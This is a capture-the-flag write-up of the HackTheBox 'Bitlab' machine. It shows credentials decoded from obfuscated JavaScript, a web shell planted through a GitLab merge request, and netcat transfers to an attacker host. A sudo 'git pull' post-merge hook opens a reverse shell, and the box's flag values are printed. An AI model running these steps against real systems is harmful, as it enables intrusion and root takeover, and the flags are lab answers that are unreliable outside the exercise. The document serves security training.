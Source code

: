 ```yaml
---
layout: post
title: "HackTheBox - Bitlab"
categories: htb
---
```


# HackTheBox -- Bitlab

## Initial Enumeration
Let's start with our usual nmap scan.
```
$ nmap -sCSV -p 1-10000 10.10.10.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-01 15:11 AEDT
Nmap scan report for 10.10.10.114
Host is up (0.057s latency).
Not shown: 9998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a2:3b:b0:dd:28:91:bf:e8:f9:30:82:31:23:2f:92:18 (RSA)
|   256 e6:3b:fb:b3:7f:9a:35:a8:bd:d0:27:7b:25:d4:ed:dc (ECDSA)
|_  256 c9:54:3d:91:01:78:03:ab:16:14:6b:cc:f0:b7:3a:55 (ED25519)
80/tcp open  http    nginx
| http-robots.txt: 55 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.114/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
<br />

Nothing too interesting here, apart from the fact that the HTTP server is running Gitlab. Seems like this might be another code-review box, nice. No obvious ways in, so let's fire up burpsuite and see if its spider picks up anything interesting.

So after about 30 seconds of clicking on links we land on an interesting one. The "help" link leads us to an open directory, with an interesting "bookmarks.html" file. Let's take a look.

## Initial Foothold
Hmm, it just seems to be a bunch of links. However, while most of the links go to outside URLs, the "Gitlab Login" link is interesting. It seems to be some poorly obfuscated javascript. So let's copy this javascript, clean it up a little and see what we can extract from it.
```javascript
function() {
    var _0x4b18 = [
        "\x76\x61\x6C\x75\x65",
        "\x75\x73\x65\x72\x5F\x6C\x6F\x67\x69\x6E",
        "\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x42\x79\x49\x64",
        "\x63\x6C\x61\x76\x65",
        "\x75\x73\x65\/x72\x5F\x70\x61\x73\x73\x77\x6F\x72\x64",
        "\x31\x31\x64\x65\x73\x30\x30\x38\x31\x78"
    ];

    document[_0x4b18[2]](_0x4b18[1])[_0x4b18[0]] = _0x4b18[3];
    document[_0x4b18[2]](_0x4b18[4])[_0x4b18[0]] = _0x4b18[5];
})()
```
<br />

So, the first thing that should jump out at you when looking at this should be the hex. Based on the range of characters it looks like valid ascii. So let's get decoding. We'll should also rename the array so it's a bit more readable, and take the variables out of the array in the `document` statements at the bottom.
```javascript
function() {
    var arr = [
        "value",
        "user_login"
        "getElementById",
        "clave",
        "user_password",
        "11des0081x"
    ];

    document["getElementById"]("user_login")["value"] = "clave";
    document["getElementById"]("user_password")["value"] = "11des0081x";
}
```
<br />

Nice. It's pretty obvious this is some sort of hacky login script that this dude "clave" wrote. Let's cut out all the crap so the javascript is readable (an unnecessary step, but indulge me).
```
function() {
    document.getElementById("user_login").value = "clave";
    document.getElementById("user_password").value = "11des0081x";
}
```
<br />

Awesome, now that we have some credentials we should use them. They're definitely for the gitlab login page. Let's give them a go and see what we can see.

Okay, so it seems like "clave" has access to two repositories, "Profile" and "Deployer". Let's give both of these a good read (commits, issues, pull requests, source code, etc) and see if we can't find anything interesting. 

So "Profile" is completely uninteresting apart from the fact that it has "Auto DevOps" enabled. "Deployer" is very interesting. It seems to be a git hook for the "Profile" repo. It looks like whenever a successful merge request goes through on "Profile", the updated "Profile" repo is pulled onto the server. So I think our first step should be finding where the profile page is located on the server. What's the bet that it's just at "/profile"?

Yup, that worked. Let's see if can get a shell uploaded. It should be as simple as uploading the shell to another branch on the "Profile" repo and submitting a merge request. Let's give this a go.

Shell successfully uploaded, merge request successful. Hopefully we should be able to see our shell in the profile directory. Yup, there it is.
```
p0wny@shell:…/html/profile# whoami
www-data
```
<br />

## Getting User & Root
Let's upload our enumeration script and see what we can find.
```
p0wny@shell:/tmp# nc 10.10.xx.xx 4444 > LinEnum.sh
```
```
$ nc -lv -p 4444 < LinEnum.sh
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 49978
```
```
p0wny@shell:/tmp# sh LinEnum.sh

...

-e [-] Super user account(s):
root
-e

...

User www-data may run the following commands on bitlab:
    (root) NOPASSWD: /usr/bin/git pull

...
```
<br />

Huh, so it seems we can use `git pull` as sudo. We can leverage this, but it'll be a little weird. I hope you're familiar with git. I don't want to go into too much detail as to how this exploit works, but I'll give you an overview.
 1. You need to create two repositories: one is the remote (the "master") repository, and one is the "local" repository.
 2. You set the remote of the "local" repo to be the "master" repo you created earlier.
 3. You make changes in both repos, so when you use `git pull`, a merge is forced. 
 4. You can create a file "local/.git/hooks/post-merge", that gets executed when you `git pull`.

<br />

In the example `payload.tar`, the script that gets executed is a reverse shell. You can look throught the provided files to get a feel for it. 

We upload our payload to the server using netcat.
```
p0wny@shell:/tmp# nc 10.10.xx.xx 4444 > payload.tar
```
```
$ nc -lv -p 4444 < payload.tar
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 49978
```
<br />

Next we unpack it and execute `sudo git pull`. Remember we have to have netcat running on our end to receive the reverse shell.
```
p0wny@shell:/tmp# tar xf payload.tar
p0wny@shell:/tmp# cd payload/payload
p0wny@shell:…/payload/payload# sudo git pull
```
```
$ nc -lv -p 4444
listening on [any] 4444 ...
connect to [10.10.xx.xx] from bitlab.htb [10.10.10.114] 59150
# /bin/bash
/bin/bash
root@bitlab:/tmp/payload/payload#
```
<br />

Awesome. Now we can get the root and user flags.
```
root@bitlab:/# cat /home/clave/user.txt
cat /home/clave/user.txt
1e3fd81ec3aa2f1462370ee3c20b8154
```
```
root@bitlab:/# cat /root/root.txt
cat /root/root.txt
8d4cc131757957cb68d9a0cddccd587c
```
<br />

## Lessons Learned
 * Git hooks can be leveraged to gain privilege escalation / command execution.
 * Open directories can leak sensitive information.
 * Always enumerate for directories (dirbuster would have found both the profile page and the open help directory, we got lucky).


